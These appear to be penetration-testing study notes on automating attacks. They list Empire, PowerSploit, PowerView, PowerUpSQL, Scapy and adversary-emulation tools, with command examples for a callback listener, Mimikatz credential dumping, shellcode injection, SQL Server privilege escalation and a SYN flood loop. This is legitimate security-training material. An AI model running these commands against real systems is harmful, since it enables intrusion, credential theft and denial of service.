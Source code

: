 ## Objective 4.10: Use scripting to automate attacks

- **Automated Attacks**  
  - **Definition**: Scripts/tools that exploit vulnerabilities systematically  
  - **Purpose**: Increase speed, scale; automate repetitive tasks  
  - **Importance**: Core to sophisticated offense/defense

---

## Bash Scripting

- **Use Case**: Automate data collection, parsing, command execution  
- **Example**:  
  ```bash
  # Automate nmap scan & save results
  nmap -sV 192.168.1.0/24 -oN scan_results.txt
```

---

## Empire & PowerSploit

- **Empire Framework**
    - **Role**: Post-exploitation (Windows) via PowerShell agents (no `powershell.exe`)
    - **Key Workflow**:
        ```text
        uselistener http
        set Host http://YOUR_IP
        execute
        ```
        - _Listener_: Waits for agents
        - _Payload_: Connects target → Empire
	- **Credential Harvesting**:
        ```text
        usemodule credentials/mimikatz/logonpasswords
        execute
        ```

- **PowerSploit**
    - **Role**: PowerShell scripts for reconnaissance/exploitation
    - **Privilege Escalation**:
        ```powershell
        Import-Module PowerSploit/Privesc
        Invoke-AllChecks
        ```
    - **Shellcode Injection**:
        ```powershell
        Import-Module PowerSploit/CodeExecution
        Invoke-Shellcode -Shellcode (Get-Content shellcode.bin) -ProcessID 1234
        ```
        
- **Integration**
    - Deploy Empire agent → escalate via `Invoke-AllChecks` → dump creds (`mimikatz`) → lateral movement

---

## PowerView (AD Reconnaissance)

- **Purpose**: Enumerate AD objects (users, groups, computers, trusts)
- **Key Commands**:
    ```powershell
    Get-NetUser
    Get-NetGroup
    Get-NetGroupMember -GroupName "Domain Admins"
    Get-NetComputer
    Get-NetDomainTrust
    Get-NetSession -ComputerName TARGET_HOST
    ```
- **Concepts**:
    - **Mapping AD**: Discover users/groups/computers
    - **High-Value Targets**: Focus on privileged accounts
    - **Trust Relationships**: Identify cross-domain attack paths

---

## PowerUpSQL (SQL Server Exploitation)

- **Purpose**: Automate discovery/exploitation of SQL Server instances
- **Key Commands**:
    ```powershell
    Get-SQLInstanceLocal -Verbose
    Get-SQLServerInfo -InstanceName "SQLSERVER01"
    Invoke-SQLEscalatePriv -Instance "SQLSERVER01" -Verbose
    Get-SQLServerLoginDefaultPw
    Get-SQLDomainUser -UserState TrustedForDelegation
    Get-SQLServerLink -Instance "SQLSERVER01"
    ```
- **Concepts**:
    - **Discovery**: Scan network for SQL instances
    - **Privilege Escalation**: Exploit misconfigurations
    - **Lateral Movement**: Use linked servers

---

## AD Search (PowerShell)

- **Purpose**: Automate AD information gathering/filtering
- **Essential Cmdlets**:
    ```powershell
    # Retrieve all users in OU
    Get-ADUser -Filter * -SearchBase "OU=Sales,DC=Corp,DC=com"
    
    # Users with "Manager" in title
    Get-ADUser -Filter {Title -like "*Manager*"} -Properties Title
    
    # Users never logged in
    Get-ADUser -Filter * -Properties LastLogonDate |
      Where-Object { $_.LastLogonDate -eq $null }
    ```
    
- **Advanced Reports**:
    ```powershell
    Get-ADGroupMember "Domain Admins" |
      Get-ADUser -Properties DisplayName,EmailAddress |
      Select DisplayName,EmailAddress |
      Export-Csv C:\Reports\DomainAdmins.csv -NoTypeInformation
    ```
    
- **Loop Example**:
    ```powershell
    $OUs = Get-ADOrganizationalUnit -Filter *
    foreach ($OU in $OUs) {
      Get-ADUser -Filter {Enabled -eq $false} -SearchBase $OU.DistinguishedName |
        Select Name,DistinguishedName
    }
    ```

---

## Impacket & Scapy
- **Impacket**
    - **Role**: Python scripts for network protocol interactions and packet crafting
- **Scapy**
    - **Role**: Packet manipulation (craft/sniff/decode)
    - **ARP Scanning**:
        ```python
        # Send ARP requests to 192.168.1.0/24, collect replies
        from scapy.all import ARP, Ether, srp
        ans, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"), timeout=2)
        for sent, received in ans:
            print(received.psrc, received.hwsrc)
        ```

	- **TCP SYN Flood**:
        ```python
        # Flood target IP with SYN packets
        from scapy.all import IP, TCP, send
        for port in range(1, 1025):
            send(IP(dst="TARGET_IP")/TCP(dport=port, flags="S"))
        ```
- **Takeaway**: Automate network reconnaissance and DoS simulations

---

## Caldera (Adversary Emulation)

- **Overview**: MITRE’s BAS platform using **MITRE ATT&CK** framework
- **Workflow**:
    1. Deploy agent(s) in virtual environment
    2. Agents execute “abilities” (attack steps)
        - **Initial Access**: e.g., simulated phishing
        - **Credential Dumping**: Mimikatz
        - **Lateral Movement**: Use stolen creds
    3. Caldera server logs results
- **Benefits**:
    - **Automation**: Chain multiple attack techniques
    - **Logging/Reporting**: Detailed success/failure insights
    - **Repeatable Scenarios**: Compare defenses pre/post-mitigation

---

## Infection Monkey (Malware Simulation)

- **Overview**: Simulates real-world malware in a safe, controlled manner
- **Components**:
    - **Agent**: Acts like malware (spreads, steals data)
    - **Monkey Island**: C2 server; tracks agent activity
- **Use Cases**:
    - Test security controls (firewall, IDS, endpoint)
    - Identify vulnerable network segments
- **Benefits**:
    - **Realistic Simulation**: Mimics ransomware/worm behavior
    - **Actionable Insights**: Pinpoints defense gaps
    - **Continuous Improvement**: Iterate to harden posture

---

## Atomic Red Team (Focused Attack Tests)

- **Overview**: Run “atomic tests” mapped to **MITRE ATT&CK**
- **Examples**:
    - **Credential Dumping (T1003.001)**
        ```powershell
        Invoke-AtomicTest T1003.001 -TestNumbers 1
        ```
    - **Malicious PowerShell Execution (T1059.001)**
        ```powershell
        Invoke-AtomicTest T1059.001 -TestNumbers 2
        ```
    - **Scheduled Task Persistence (T1053.005)**
        ```powershell
        Invoke-AtomicTest T1053.005 -TestNumbers 1
        ```
- **Advantages**:
    - **Immediate Feedback**: Quick validation of defenses
    - **Low Overhead**: Minimal setup; targeted tests
    - **Technique-Focused**: Isolate detection gaps
